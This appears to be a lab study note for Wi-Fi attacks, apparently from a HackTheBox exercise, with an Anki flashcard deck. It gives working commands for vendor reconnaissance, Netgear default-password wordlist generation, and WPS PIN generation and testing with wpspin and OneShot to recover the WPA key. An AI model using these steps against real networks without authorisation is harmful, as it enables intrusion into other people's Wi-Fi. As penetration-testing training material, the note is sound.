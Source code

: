 # Chain #13: Default Credentials & Vendor-Based Cracking

## Goal & Scope

Exploit vendor default password schemes and WPS PIN logic to access Wi‑Fi networks:

- Identify vendor from SSID/BSSID.
- Apply known default password formats.
- Generate Netgear-style defaults with scripts and tools.
- Explore community resources for default generators.
- Generate and test default WPS PINs with wpspin.

---

## Step 1 — Identify Vendor via Reconnaissance

Run airodump‑ng to collect ESSID and BSSID of target:

```bash
sudo airodump-ng wlan0mon -c 1 --essid HackTheBox-Wifi
```

Use OUI lookup to match vendor from MAC prefix:

```bash
grep -i "9C-C9-EB" /var/lib/ieee-data/oui.txt
```

Output example: `NETGEAR`.

---

## Step 2 — Why Vendor Lookup Matters

- Vendors often use predictable default password patterns.
- Knowing the brand narrows attack strategy.
- WPS algorithms may be vendor‑specific.

---

## Step 3 — Netgear Default Password Pattern

Default: `{adjective}{noun}{3 digits}`.  
Examples:

- `sleeksalamander113`    
- `abandonedelephant556`

This pattern is guessable and exploitable.

---

## Step 4 — Public Netgear Wordlist Repository

Clone curated wordlist:

```bash
git clone https://github.com/LivingInSyn/netgear_hashcat_wordlist.git
cd netgear_hashcat_wordlist/wordlists
```

- Contains prebuilt Netgear‑style wordlists.    
- Optimized for Hashcat use.

---

## Step 5 — Manually Building Netgear Wordlists

Custom Bash script combines adjectives, nouns, numbers:

```bash
#!/bin/bash
wordlist1="adjectives.txt"
wordlist2="nouns.txt"
wordlist3="numbers.txt"
output="Netgear_Default.txt"
> "$output"
while IFS= read -r adj; do
  while IFS= read -r noun; do
    while IFS= read -r num; do
      echo "${adj}${noun}${num}" >> "$output"
    done < "$wordlist3"
  done < "$wordlist2"
done < "$wordlist1"
```

- Flexible for testing different lists.    
- Produces candidates like `brightwolf451`.

---

## Step 6 — Netgear Password Constructinator (NPCinator)

Community tool with larger adjective/noun pools:

```bash
python3 NPCinator.py > passwords.txt
```

- Generates extensive candidate lists.    
- Must limit runtime to avoid gigabytes of output.

---

## Step 7 — Other Default Generators

Useful repos:

- **Smart Password Generator** → Based on salt, MAC, BSSID.    
- **IMEI Generator** → For mobile broadband routers.
- **Time Warner/Spectrum Cracker** → Cable routers.
- **Wifi-WPA-Keyspace-List** → WPA keyspaces by vendor.

Maintain a toolkit of vendor‑specific generators.

---

## Step 8 — WPS Default PINs with wpspin

Generate default WPS PIN:

```bash
wpspin D4:BF:7F:EB:29:D2
```

Generate multiple possible PINs:

```bash
wpspin -A D4:BF:7F:EB:29:D2
```

Examples:

- `77215369` (24‑bit)    
- `68175542` (Realtek)
- `12345670` (Cisco)

---

## Step 9 — Test WPS PIN with OneShot

```bash
python3 oneshot.py -i wlan0mon -b D4:BF:7F:EB:29:D2 -p 99956042
```

If successful:

- Displays `WPS PIN`.    
- Reveals `WPA PSK` and `SSID`.

---

## Checklist

1. Capture target ESSID/BSSID with airodump‑ng.    
2. Perform OUI vendor lookup.
3. Apply known vendor default patterns.
4. Use curated Netgear wordlists or scripts.
5. Optionally use NPCinator for larger lists.
6. Explore vendor default generators.
7. Generate WPS PINs with wpspin.
8. Test with OneShot/Reaver to retrieve PSK.

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

F1a2B3c4D5	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Why perform vendor lookup from SSID/BSSID before cracking?	Vendors often use predictable default password or WPS patterns, so identifying the vendor narrows cracking strategy.	wifi
G2b3C4d5E6	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	Which command finds the vendor for BSSID <code>AA:BB:CC:DD:EE:FF</code> using the local OUI file <code>/var/lib/ieee-data/oui.txt</code>?	"<code>grep -i ""AA-BB-CC"" /var/lib/ieee-data/oui.txt</code>"	wifi
H3c4D5e6F7	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	What Netgear default password pattern is known?	<code>{adjective}{noun}{3 digits}</code>	wifi
I4d5E6f7G8	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Give two examples of Netgear default passwords.	<code>sleeksalamander113</code>, <code>abandonedelephant556</code>	wifi
J5e6F7g8H9	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	Type the GitHub repository slug (owner/repo) that provides a Netgear Hashcat wordlist.	<code>LivingInSyn/netgear_hashcat_wordlist</code>	wifi
L7g8H9i0J1	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	What tool expands adjective+noun pools into Netgear candidates?	<code>NPCinator</code>	wifi
M8h9I0j1K2	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Why limit NPCinator runtime in labs?	It generates very large lists that can consume disk and CPU if left running too long.	wifi
N9i0J1k2L3	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Name four community default password generator repos.	Smart Password Generator, IMEI Generator, Time Warner/Spectrum Cracker, Wifi-WPA-Keyspace-List.	wifi
O1j2K3l4M5	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	What tool generates default WPS PINs from BSSID?	<code>wpspin</code>	wifi
P2k3L4m5N6	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	Which <code>wpspin</code> flag enumerates multiple PIN candidates?	<code>-A</code>	wifi
R4m5N6o7P8	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Which tool can verify a WPS PIN and extract the WPA PSK?	OneShot (or Reaver).	wifi
S5n6O7p8Q9	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	What information does OneShot output upon success?	The WPS PIN, WPA PSK, and SSID of the target AP.	wifi
T6o7P8q9R0	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Why are default credentials a realistic attack vector in Wi-Fi?	Many users never change factory passwords or disable WPS, leaving predictable defaults exploitable.	wifi
V8q9R0s1T2	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	What file is commonly used for vendor lookups on Linux systems?	<code>/var/lib/ieee-data/oui.txt</code>	wifi
X0s1T2u3V4	Basic (type in the answer)	Ops::WiFi Gym::Chain 13: Default Credentials	Which OneShot command tests PIN <code>99956042</code> against BSSID <code>AA:BB:CC:DD:EE:FF</code> on interface <code>wlan0mon</code>?	<code>python3 oneshot.py -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 99956042</code>	wifi
Y1t2U3v4W5	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	What does NPCinator output by default and how is it used?	Generates Netgear-style candidate passwords and saves them for cracking attempts.	wifi
Z2u3V4w5X6	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Why is SSID naming pattern recognition useful?	Factory SSIDs often reveal vendor, guiding which default patterns to try.	wifi
A3v4W5x6Y7	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	What two tools are typically used after generating default password candidates?	Hashcat for cracking and OneShot/Reaver for WPS PIN testing.	wifi
C5x6Y7z8A9	Basic	Ops::WiFi Gym::Chain 13: Default Credentials	Explain why default Netgear password structure is both strong and weak.	It uses long words (strong entropy) but predictable pattern (weakness exploitable by attackers).	wifi
```